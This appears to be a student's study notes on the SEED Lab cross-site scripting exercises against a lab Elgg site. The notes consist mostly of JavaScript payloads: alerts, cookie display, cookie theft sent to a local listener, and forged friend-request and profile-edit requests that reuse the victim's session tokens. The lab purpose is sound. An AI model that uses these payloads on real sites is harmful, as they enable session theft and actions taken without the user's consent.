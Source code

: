 # Independent study on web security issues( Based on Seedlab, Syracuse University) 

## Cross site Scripting 

### Useful Links:
* Web and network security, CS 155, Stanford University, https://crypto.stanford.edu/cs155/
* https://excess-xss.com/
* Seedlab, Syracuse University,http://www.cis.syr.edu/~wedu/seed/ 

### Tasks:

#### A simple blogpost application in php 
* Link : https://gitlab.com/shivapbhusal/app_analysis/tree/shiva/security_examples/xss
* Shows how attackers can inject malicious JavaScript code to the system and perform evil activities. 

#### SeedLab Activities 
Link : http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_XSS_Elgg/Web_XSS_Elgg.pdf
#### Task 1: Popup window
The user injects this code in his profile. When other user visits his profile, a popup window appears. 

```javascript
<script>
alert('XSS attack');
</script>
```

#### Task 2 : Display cookies 

```javascript
<script>
alert(document.cookie);
</script>
```

#### Task 3: Stealing cookies: 
The TCP server program in c can be used to view the cookie information from the port 5555. 

```javascript
<script>
document.write('<img src=http://127.0.0.1:5555?c='+escape(document.cookie) + '   >');
</script>
```

#### Task 4 : Sending the friend request on behalf of the user. 
If I inject this code to my profile, whoever visits my profile will send a friend request to me. 

```javascript
<script>
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=40"+ts+token; 
var Ajax=new XMLHttpRequest ();
Ajax.open("GET",sendurl,true); 
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send(); 
</script>
```

#### Task 5: Changing the profile information of the user. 
It is not working properly. The draft code for the post request looks like this. We need to figure out how we can get name and other information 

```javascript 
<script>
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
var content=ts+token+"&name=Charlie&description=Samy_is_my_hero&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=41"; 
Ajax.send(content);
</script>
```

JSON parse for guid
```javascript 
<script>
var owner = JSON.parse(elgg.page_owner);
alert(owner.guid);
</script>
```

Working example JSON parse:
```javascript 
<script>
var jsontext = '{"firstname":"Jesper","surname":"Aaberg"}'
var info=JSON.parse(jsontext);
alert(info.firstname);
 </script>
```
